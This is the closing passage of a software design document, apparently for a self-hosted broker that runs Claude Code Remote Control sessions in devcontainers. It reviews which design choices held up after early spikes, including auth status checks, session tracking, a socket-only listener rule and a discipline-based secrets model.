The second shrank. Spike 01 found `claude auth status --json`, so the expiry watch needs no terminal at all, and what remains of the scraping is the login handshake's two matches and the session-discovery tail — both now measured against a pinned version rather than assumed. Spike 02 also moved the session tail onto firmer ground than expected: the durable thing to hold is one environment id per workspace plus a capacity count the server reprints constantly, not a list of sessions to keep accurate. That is a smaller surface than the design was braced for, which makes the four harnesses the real dependency — they are what converts a Claude Code bump from a guess into a half-hour check. Everything else — the broker, the socket-as-identity trick, the label-based reconciliation, and the decision to let Caddy own the only listener — would survive a rewrite unchanged. The secrets model in §10 is a third: it works because of a discipline rather than a mechanism, and a discipline is only as good as the day you are in a hurry. If any of the rest turns out to be load-bearing in a way I did not expect, my bet is on the socket-only rule: it is the one constraint that keeps having useful consequences (no forwarded-header allowlist, no local-user exposure, no debug port to forget about) long after the reason it was adopted.

---

*Working name. Constraints in §2 are drawn from the Claude Code documentation on [Remote Control](https://code.claude.com/docs/en/remote-control) and [Authentication](https://code.claude.com/docs/en/authentication), the [devcontainer CLI](https://github.com/devcontainers/cli), and GitHub's [installation access token](https://docs.github.com/en/apps/creating-github-apps/authenticating-with-a-github-app/generating-an-installation-access-token-for-a-github-app) reference, all as of August 2026. Version-sensitive behavior — particularly terminal output shapes — should be re-verified against the pinned Claude Code version before Phase 5.*
